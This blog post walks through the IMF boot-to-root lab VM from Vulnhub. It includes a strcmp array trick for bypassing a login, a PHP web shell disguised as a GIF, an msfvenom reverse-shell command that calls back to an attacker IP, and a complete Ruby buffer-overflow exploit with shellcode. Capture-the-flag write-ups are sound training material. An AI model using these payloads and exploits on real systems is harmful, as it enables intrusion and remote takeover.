 +++
menu = "posts"
Description = "A walkthrough of the IMF VM from Vulnhub"
date = "2016-11-01T19:16:02-04:00"
title = "B2R: IMF Walkthrough"
Categories = [ "Boot2Root" ]
+++

After mapping the network and finding our IP address at `192.168.1.162`, we can add it to our `/etc/hosts`
temporarily to make things a little easier for us.

~~~bash.prettyprint
echo "192.168.1.162     imf" >> /etc/hosts
~~~

Lets see what kind of machine we're dealing with. 

![](https://i.imgur.com/1DmhXnq.png)


Ok, so web only. Great. `nikto` didn't reveal any low-hanging fruit so let's dive into the source.

![](https://i.imgur.com/S4hPuB2.png)

Check that out! Our first flag was hidden in `http://imf/contact.php`. This looks like base64. After decoding
we get the clue `allthefiles`. Lets keep looking.

Going back to the source code, I found a javascript file that also looked like it was base64 but it didn't
return any results. After a while of going in circles I took my dog for a walk and pondered about what
'allthefiles' could mean. When I came back and looked over the source code again, I saw this:

![](https://i.imgur.com/ANZ1UgC.png)

All the files, ey? 

![](https://i.imgur.com/Ik1rUga.png)

If we visit that directory on our webapp

![](https://i.imgur.com/75xqVVJ.png)

Ok, no DB here. We're dealing with a hardcoded password which means we're dealing with an equaltiy operator
on the backend or possibly the `strcmp()` function. I messed around with nullbyte string termination exploits
here for a while but ultimately ended up nowhere. Let's assume we're dealing with `strcmp` since it's easier
to fool a function than to fool an operator. 

![](https://i.imgur.com/qo8t92C.png)

I'm not very good with PHP, but I'm guessing that I need this function to return a `0` so I fired up
[repl.it](https://repl.it) and started trying to break it. Turns out if you feed it the wrong type (it
expects two strings), it seems to return a `0`.

![](https://i.imgur.com/iQiFPrC.png)
 
So if we can feed this function an array from the web form, we might be able to bypass the password check. By
changing the name of the form's password field from `pass` to `pass[]`, we can do just that. 

![](https://i.imgur.com/DpxX4o7.png)

With the modified form, a BS password, and a username from the Contacts page, we get...

![](https://i.imgur.com/wB0UUP3.png)

The decoded flag just has us click through to the CMS

~~~bash.prettyprint
root@kali:~                                                                                                                                                                                     ⍉
❯❯ echo Y29udGludWVUT2Ntcw== | base64 -d
continueTOcms
~~~

The CMS has 3 pages to choose from and none of them seemed to have any relevant info. I tried (too long) to
use LFI exploits here, modifying URLs, headers, HTTP methods... nothing. I was trying to enter an empty
`pagename` for like the 100th time when I fat fingered the "enter" key and hit `' + Enter` at the same time
when I saw this:

![](https://i.imgur.com/Oqo4ZQg.png)

SQL! Alright, fired up `sqlmap`

![](https://i.imgur.com/izezAtP.png)
![](https://i.imgur.com/uckNUTe.png)

Looks like we have an image at `imfadministrator/images/whiteboard.jpg`

![](https://i.imgur.com/BBLfAQY.png)

The QR Code is our next flag `flag4{dXBsb2FkcjkOMi5waHA=}`

~~~bash.prettyprint
root@kali:~                                                                                                                                                                                     ⍉
❯❯ echo dXBsb2Fkcjk0Mi5waHA= | base64 -d
uploadr942.php   
~~~

We navigate to `http://imf/imfadministrator/uploadr942.php` and we get our uploader. After messing around
with it a bit we can see that the response html from a successful upload has a hash of some sort. I'm
guessing its the hashed version of the filename in the `/uploads` folder. 

Maybe we can craft a malicious image with a reverse_tcp meterpreter payload then insert the new page into our
db so it gets executed.

![](https://i.imgur.com/y8obNV4.png)

Let's upload it!

![](https://i.imgur.com/ePzjKU9.png)

Haha! Whoops. Alright what about just regular command execution:


~~~bash.prettyprint
cat <<EOF > muahaha.gif
GIF89a
<?php \`id\` ?>
~~~

Since CrappyWAF detects functions calls, we should modify our script to take the command from a query
parameter. Let's replace `id` with `$cmd=$_GET['cmd']; echo $cmd` and try again.

![](https://i.imgur.com/v0uaGPw.png)

Lets get a shell that's easier to work with with `msfvenom`.

![](https://i.imgur.com/lXrjIik.png)
![](https://i.imgur.com/dRelPbw.png)


It's time to get a sense of the machine we're in. "Presence"

  * interesting processes - knockd, sshd
  * interesting files (world readable, executable root files, etc) - `/usr/local/bin`
    * `cat /usr/local/bin/access_codes #> SYN 7482,8279,9467`
    * `/usr/local/bin/agent` - connect to some sort of agent portal; download it
  * listening ports `netstat -plnt` - 7788

It looks like we've got a hidden service running on 7788. To enable it, we have to 'knock' in the right order
so the firewalll opens up. If we send SYN packets to 7482 8279 9467, it might open up.

![](https://i.imgur.com/SgDQYRk.png)
![](https://i.imgur.com/SdM3380.png)

Lets decompile our downloaded binary at https://retdec.com/decompilation-run/

![](https://i.imgur.com/WnuLN8R.png)

We can see on line 49 where the authentication happens. It's comparing against a string that was defined on
line 37, `0x2ddd984`. If we pop this into an online hex converter, we get `48093572`

![](https://i.imgur.com/rs6S3Yf.png)

After navigating through our binary, we have a place where we have user input. This is looking like it's
going to be a buffer overflow exploit. Once we download our application and run it through `gdb`, we confirm
that the report function is vulnerable. 

![](https://i.imgur.com/4CxBLoX.png)
![](https://i.imgur.com/bD9RCyw.png)

Bingo. Plug 0x41366641 into `pattern_offset` we see that our buffer ends at 168, meaning our EIP register is
at 169. If we inspect the assembly for the `report` function, we see that our report string is stored in EAX.
Because we have control of both EIP and EAX, it makes sense that we use this control to point one to the
other. We can place our exploit at the beginning of EAX by simply injecting it as the "report". We'll then
pad the input string until it's 168 characters long. Then, well tell EIP that it should return to the
beginning of EAX where our payload is waiting.  If we search to see if EAX is ever called, we can use that
address in EIP. 

![](https://i.imgur.com/R7BFi8b.png)
![](https://i.imgur.com/3yWsjBr.png)

Lets generate our shellcode and start to write the exploit.

~~~bash.prettyprint
msfvenom -p linux/x86/shell/reverse_tcp LHOST=192.168.1.161 LPORT=4444 -f ruby -b "\x00\x0a\x0d"
~~~

~~~bash.prettyprint
require 'socket'

host = '192.168.1.162'

if ARGV[0] == 'knock'
  [7482, 8279, 9467].each do |port|
    puts "knocking on #{port}"
    `nmap -Pn --host_timeout 201 --max-retries 0 -p #{port} #{host} &>/dev/null`
  end
end

buf = 
"\xda\xd4\xd9\x74\x24\xf4\x58\xbb\xc8\x28\xf5\xc3\x29\xc9" +
"\xb1\x12\x31\x58\x1a\x83\xc0\x04\x03\x58\x16\xe2\x3d\x19" +
"\x2e\x34\x5e\x09\x93\xe8\xca\xac\xa3\x69\x83\x50\x0e\xf5" +
"\x04\xc9\xf9\x36\x82\xef\x58\xde\xd0\xef\x8b\x43\x5d\x0e" +
"\xc1\x1d\x05\x81\x47\xb5\x3c\xc0\x2b\xf4\xbe\xb1\xab\xbf" +
"\xbe\xa5\xb3\xbf\x37\x26\x72\x54\x4b\x68\x96\xa7\xe3\x17" +
"\x94\x38\x58\x61\xc7\xa0\xe8\x7d\xb8\xd0\xd9\xfe\x47\x37"

eip = "\x63\x85\x04\x08"

exploit = buf + "A"*70 + eip

s = TCPSocket.new(host, 7788)
puts s.readpartial(512)
s.write("48093572\n")

puts s.readpartial(512)
s.write("3\n")

puts s.readpartial(512)
s.write(exploit + "\n")
~~~

Let's run it!

![](https://i.imgur.com/ImmvfQj.png)

And there we have it! Thanks for reading!


